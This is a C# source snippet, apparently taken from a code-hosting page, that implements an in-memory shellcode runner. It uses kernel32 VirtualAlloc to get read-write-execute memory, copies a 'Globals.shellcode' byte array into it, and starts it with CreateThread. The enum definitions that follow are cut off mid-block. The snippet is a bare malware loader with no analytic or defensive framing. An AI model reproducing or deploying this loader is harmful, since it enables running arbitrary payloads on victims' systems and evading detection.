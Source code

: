 ```cs

    public class Run
    {
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, int dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
        public Run()
        {

            IntPtr alloc = VirtualAlloc(IntPtr.Zero, Globals.shellcode.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ExecuteReadWrite);
            if (alloc == IntPtr.Zero)
            {
                return;
            }

            Marshal.Copy(Globals.shellcode, 0, alloc, Globals.shellcode.Length);
            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, alloc, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(threadHandle, 0xFFFFFFFF);
        }
    }
    [Flags]
    public enum FreeType
    {
        Decommit = 0x4000,
        Release = 0x8000,
    }

    [Flags]
    public enum AllocationType
    {
        Commit = 0x1000,
        Reserve = 0x2000,
        Decommit = 0x4000,
        Release = 0x8000,
        Reset = 0x80000,
        Physical = 0x400000,
        TopDown = 0x100000,
        WriteWatch = 0x200000,
        LargePages = 0x20000000
    }

    [Flags]
    public enum MemoryProtection
    {
        Execute = 0x10,
        ExecuteRead = 0x20,
        ExecuteReadWrite = 0x40,
        ExecuteWriteCopy = 0x80,
        NoAccess = 0x01,
        ReadOnly = 0x02,
        ReadWrite = 0x04,
        WriteCopy = 0x08,
        GuardModifierflag = 0x100,
        NoCacheModifierflag = 0x200,
        WriteCombineModifierflag = 0x400
```